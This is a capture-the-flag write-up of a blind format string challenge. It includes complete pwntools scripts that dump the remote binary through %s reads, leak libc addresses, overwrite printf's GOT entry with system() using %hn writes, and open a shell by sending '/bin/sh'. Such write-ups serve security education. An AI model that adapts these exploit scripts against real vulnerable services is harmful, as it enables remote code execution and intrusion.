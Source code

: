 # WRITEUP BLACK ECHO (blind format string)

## __Author:__ bytevsbyte @ beerpwn team

There wasn't any executable to download, just a service running on the server.\
When I tried to connect with netcat and send some bytes, the server replied echoing my input.\
Then I sent some "%p" to check if it was a format string vulnerability.
It returned some pointer in hexadecimal and I was sure
it was a format string.. a blind format string!!

## DUMP THE EXECUTABLE

The idea was to steal a big part of the executable to find interesting stuff and addresses.
I used the "%s" in the format string to print out some bytes
from memory starting at a specific address.
The printf evaluate the string and when it finds the first %s
it takes the pointer after the format string (is 32 bits, so it's on the stack).\
Find exactly the location of the target argument (address that the %s refers to)
it's a bit tricky and using directly the %s it's a pain.
It's easier trying first without the %s,
with something like "AAAA %p %p %p %p...",
counting how many __characters__/__bytes__ come first
the 0x41414141 in the output, that is the right offset to reach the AAAA
(a future memory address).\
To verify the offset can be used also the %OFFSET$p (where OFFSET is a number).

![Image find the offset](./first_output_offset.png)

There is only one problem if the pointer is at the start of a format string,
the NULL byte (0x00).
The printf quit after a NULL byte and it won't trigger the last part of the format string.
So I changed a bit the layout moving the "AAAA" to the end after the %p
and fixing the offset value (yes it changes).

Finally I could replace the AAAA with a real interesting address as a
starting point to access the code section memory.
The starting address is fixed, stored into the ELF header
and it doesn't changed at loading time because
it wasn't compiled with the PIE option.\
A correct address can be found with a quick search on internet about
_"entry point address"_ or looking at an other 32-bit ELF with
__`readelf -h EXECUTABLE`__.\
Then the address could be incremented in a loop by the number
of useful bytes received from the server.

```(python)
#!/usr/bin/python
#-*- coding: utf-8 -*-

from pwn import *

s = remote('chall.2019.redpwn.net', 4007)
start = 0x08048000
addr = start
binfile = ''
while addr < (start + 4096):
    if '0a' in hex(addr):
        addr += 1
        binfile += '\x00'
    try:
        print('[+] %s:' % hex(addr))
        s.sendline('AA.%10$s.BB' + '\x00' + p32(addr))
        data = s.recv(128)
        data = data[data.find('AA.')+3:data.find('.BB')]
        binfile += data + '\x00'
        addr += len(data) + 1
    except Exception as e:
        print('[-] Exception: ' + str(e))
        with open('binfile', 'w') as f:
            f.write(binfile)
        s.close()
        s = remote('chall.2019.redpwn.net', 4007)
s.close()
with open('binfile', 'w') as f:
    f.write(binfile)
```

In the loop I just skipped the addresses with "\n" because the input
function (fgets) use it to finish reading the buffer.
The script stops after 4 KiloBytes.. I checked that I received something
useful running __`file binfile`__ that printed
_`"ELF 32-bit LSB executable, Intel 80386"`_. Great!\
The binary file it's not perfect (due to the addresses skipped containing 0x0a) but this is not a problem, with a bit of fortune
when some stuff is missing,
you don't have to execute it but just do some static
analysis, like looking for address and understanding the code layout.

## EXPLOIT
This executable it's quite easy to understand with a tool
like ghidra, hopper or r2. There aren't any buffer overflow, but there are always the printf in loop. The main instructions from the dump in
decompiled C (with ghidra):

```(c)
do {
    fgets(local_1014, 0x1000, *(FILE **)PTR_stdin_08049ff8);
    printf(local_1014);
} while( true );
```

I had to identify which libc the server use. I used the format string
in the same way as before, but using as target address
the GOT array of different functions (setbuf, printf and fgets).
With these addresses (last 12 bit) I identified the libc used
with the libc-database tool and after I found the address of libc.

```(bash)
~/libc-database# ./find setbuf 450 printf 020 fgets 620
ubuntu-xenial-amd64-libc6-i386 (id libc6-i386_2.23-0ubuntu10_amd64)
archive-glibc (id libc6-i386_2.23-0ubuntu11_amd64)
~/libc-database# ./dump libc6-i386_2.23-0ubuntu10_amd64 system
offset_system = 0x0003a940
```

My idea was to exploit this binary using the first round of format string
to get a leak of an address and bypass the ASLR.
Then, in the second round,
replace the pointer of the printf in the GOT with the system!\
The printf it's the perfect target in this case because it's used (bad)
with only one parameter that is the string read from the input,
and I didn't need to change the code flow.
Finally, at the last round of input I could pass a "/bin/sh" string
to the input and the code will call the system instead the printf,
passing it the string just read.

The final exploit:

```(python)
#!/usr/bin/python
#-*- coding: utf-8 -*-

import struct
from pwn import *

got_setbuf  = 0x804a00c
got_printf  = 0x804a010
got_fgets   = 0x804a014
offset_printf   = 0x49020
offset_system   = 0x3a940

# LEAK => setbuf(450) printf(020) fgets(620)
payload = 'AA.%10$s.BB' + '\x00' + p32(got_printf)
s = remote('chall.2019.redpwn.net', 4007)
s.sendline(payload)
data = s.recv(128)
data = data[data.find('AA.')+3:data.find('.BB')]
libc_base = struct.unpack("I", data[4:8])[0] - offset_printf
system = libc_base + offset_system
print('[+] libc base: ' + hex(libc_base))
print('[+]    system: ' + hex(system))

# EXPLOITATION
lw = system & 0x0000ffff
uw = (system & 0xffff0000) >> 16
fmtstr  = '%' + str(lw) + 'x'           # >6
fmtstr += '%14$hn'                      # >12
fmtstr += '%' + str(uw-lw) + 'x'        # >18
fmtstr += '%15$hn'                      # >24
fmtstr += '\x00' * (len(fmtstr) % 4)
s.sendline(fmtstr + p32(got_printf) + p32(got_printf+2))
data = s.recv(4096)
s.interactive()
s.send('////bin/sh')
s.close()
```

## Flag time

![Image of flag](./output_flag.png)

After I got the shell I took the source code file
that can be useful to recompile (_`gcc -m32 code.c -o bin`_) a working
executable and try it in local.
